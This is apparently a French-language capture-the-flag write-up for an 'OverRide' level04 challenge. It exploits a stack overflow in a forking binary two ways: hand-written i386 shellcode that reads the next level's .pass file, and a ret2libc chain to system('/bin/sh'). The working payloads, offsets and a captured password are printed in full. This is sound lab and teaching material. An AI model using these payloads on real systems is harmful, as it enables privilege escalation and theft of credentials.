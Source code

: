 # Level04

Nous remarquons la presence d'un fork, ainsi que des check, qui arrete le programme,
si on execve est appele.
Nous devons realiser notre propre shellcode file reader architecture i386,
il fera un open, read et write sur le fichier .pass du level suivant.

Le code asm est disponnible dans le fichier shellcode_file_reader.s dans le dossier resources.

Nous l'assemblons avec nasm et le linker ld pour pouvoir recuperer le shellcode en hexa.

```
nasm -f elf32 ./resources/shellcode_file_reader.s -o ./resources/shellcode.o
ld -m elf_i386 ./resources/shellcode.o -o ./resources/shellcode
chmod +x ./resources/shellcode
```

Ensuite nous recuperons sont code en hexa grace a obj dump.

```
$ objdump -d resources/shellcode

resources/shellcode:     file format elf32-i386


Disassembly of section .text:

08049000 <_start>:
 8049000:	31 c9                	xor    %ecx,%ecx
 8049002:	f7 e1                	mul    %ecx

08049004 <open>:
 8049004:	b0 05                	mov    $0x5,%al
 8049006:	51                   	push   %ecx
 8049007:	68 70 61 73 73       	push   $0x73736170
 804900c:	68 30 35 2f 2e       	push   $0x2e2f3530
 8049011:	68 65 76 65 6c       	push   $0x6c657665
 8049016:	68 72 73 2f 6c       	push   $0x6c2f7372
 804901b:	68 2f 75 73 65       	push   $0x6573752f
 8049020:	68 68 6f 6d 65       	push   $0x656d6f68
 8049025:	68 2f 2f 2f 2f       	push   $0x2f2f2f2f
 804902a:	89 e3                	mov    %esp,%ebx
 804902c:	cd 80                	int    $0x80

0804902e <read>:
 804902e:	93                   	xchg   %eax,%ebx
 804902f:	91                   	xchg   %eax,%ecx
 8049030:	b0 03                	mov    $0x3,%al
 8049032:	66 ba ff 0f          	mov    $0xfff,%dx
 8049036:	42                   	inc    %edx
 8049037:	cd 80                	int    $0x80

08049039 <write>:
 8049039:	92                   	xchg   %eax,%edx
 804903a:	b3 01                	mov    $0x1,%bl
 804903c:	c1 e8 0a             	shr    $0xa,%eax
 804903f:	cd 80                	int    $0x80

08049041 <exit>:
 8049041:	93                   	xchg   %eax,%ebx
 8049042:	cd 80                	int    $0x80

```

Ce qui nous donne :
```
\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x70\x61\x73\x73\x68\x30\x35\x2f\x2e\x68\x65\x76\x65\x6c\x68\x72\x73\x2f\x6c\x68\x2f\x75\x73\x65\x68\x68\x6f\x6d\x65\x68\x2f\x2f\x2f\x2f\x89\xe3\xcd\x80\x93\x91\xb0\x03\x66\xba\xff\x0f\x42\xcd\x80\x92\xb3\x01\xc1\xe8\x0a\xcd\x80\x93\xcd\x80
```

Nous devons maintenant trouver l'offset pour injecter le shellcode ainsi que son adresse.
On lance gdb normalement puis on le passe en mode debugging forks child:

```
set follow-fork-mode child
```

De la meme maniere qu'auparavant on trouve l'offset a 156 bytes.

on export tout d'abord le shellcode dans l'env comme si dessous:
```
level04@OverRide:~$ export SHELLCODE=`python -c 'print "\x90"*100 + "\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x70\x61\x73\x73\x68\x30\x35\x2f\x2e\x68\x65\x76\x65\x6c\x68\x72\x73\x2f\x6c\x68\x2f\x75\x73\x65\x68\x68\x6f\x6d\x65\x68\x2f\x2f\x2f\x2f\x89\xe3\xcd\x80\x93\x91\xb0\x03\x66\xba\xff\x0f\x42\xcd\x80\x92\xb3\x01\xc1\xe8\x0a\xcd\x80\x93\xcd\x80"'`
```

puis on trouve l'adressse du NOP le plus proche du shellcode:
```0xffffd8b0```

Place a l'injection:
```
level04@OverRide:~$ python -c 'print "B" * 156 + "\xb0\xd8\xff\xff"' | ./level04
```

# Methode 2 (ret2libc)

Création du ret2libc, pour cela nous avons besoin de l'adresse de `system` et de `exit` et de l'adresse de `/bin/sh` dans la libc.
```
$ gdb ./level04
(gdb) b main
(gdb) r
(gdb) info function exit
All functions matching regular expression "exit":

Non-debugging symbols:
0xf7e5eb70  exit
...

(gdb) info function system                                                                                                                                    [17/354]
All functions matching regular expression "system":

Non-debugging symbols:
0xf7e6aed0  __libc_system
0xf7e6aed0  system
0xf7f48a50  svcerr_systemerr
(gdb) info proc map
process 1996
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/users/level04/level04
         0x8049000  0x804a000     0x1000        0x0 /home/users/level04/level04
         0x804a000  0x804b000     0x1000     0x1000 /home/users/level04/level04
        0xf7e2b000 0xf7e2c000     0x1000        0x0
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
        0xf7fd0000 0xf7fd4000     0x4000        0x0
        0xf7fda000 0xf7fdb000     0x1000        0x0
        0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
        0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
        0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
        0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
        0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xf7e2c000,0xf7fcc000,"/bin/sh"
0xf7f897ec
1 pattern found.
(gdb) quit
```
Ensuite on va composer notre payload : padding + system + exit + /bin/sh
```
level04@OverRide:~$ (python -c 'print "B"*156+"\xd0\xae\xe6\xf7"+"\x70\xeb\xe5\xf7"+"\xec\x97\xf8\xf7"';cat) | ./level04
Give me some shellcode, k

id
uid=1004(level04) gid=1004(level04) euid=1005(level05) egid=100(users) groups=1005(level05),100(users),1004(level04)
cat ~level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
